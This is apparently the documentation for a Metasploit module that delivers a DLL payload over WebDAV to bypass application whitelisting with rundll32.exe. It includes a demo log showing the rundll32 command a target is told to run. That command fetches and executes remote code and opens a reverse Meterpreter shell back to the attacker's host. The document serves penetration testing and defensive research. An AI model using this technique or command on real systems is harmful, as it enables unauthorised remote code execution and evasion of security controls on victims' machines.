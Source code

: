 # Introduction

This module simplifies the rundll32.exe Application Whitelisting Bypass technique

The module creates a webdav server that hosts a dll file. When the user types the provided
rundll32 command on a system, rundll32 will load the dll remotly and execute the provided
export function.

The export function needs to be valid, but the default meterpreter function can be anything.
The process does write the dll to `C:\Windows\ServiceProfiles\LocalService\AppData\Local\Temp\TfsStore\Tfs_DAV`
but does not load the dll from that location. This file should be removed after execution.

The extension can be anything you'd like, but you don't have to use one. Two files will be
written to disk. One named the requested name and one with a dll extension attached.

Please note that there is a slight delay for the target to start making WebDAV requests,
and then getting a session back.

# Demo

```
msf5 exploit(windows/misc/webdav_delivery) > run
[*] Exploit running as background job 3.

[*] Started reverse TCP handler on 172.16.249.1:4444 
msf5 exploit(windows/misc/webdav_delivery) > [*] Using URL: http://172.16.249.1:8080/
[*] Server started.
[*] Run the following command on the target machine:
rundll32.exe \\172.16.249.1@8080\ANYTHING,Init
[*] 172.16.249.130   webdav_delivery - GET /ANYTHING
[*] Sending stage (180291 bytes) to 172.16.249.130
[*] Meterpreter session 4 opened (172.16.249.1:4444 -> 172.16.249.130:49219) at 2018-12-12 13:25:06 -0600

msf5 exploit(windows/misc/webdav_delivery) > sessions

Active sessions
===============

  Id  Name  Type                     Information  Connection
  --  ----  ----                     -----------  ----------
  4         meterpreter x86/windows               172.16.249.1:4444 -> 172.16.249.130:49219 (172.16.249.130)

msf5 exploit(windows/misc/webdav_delivery) >
```
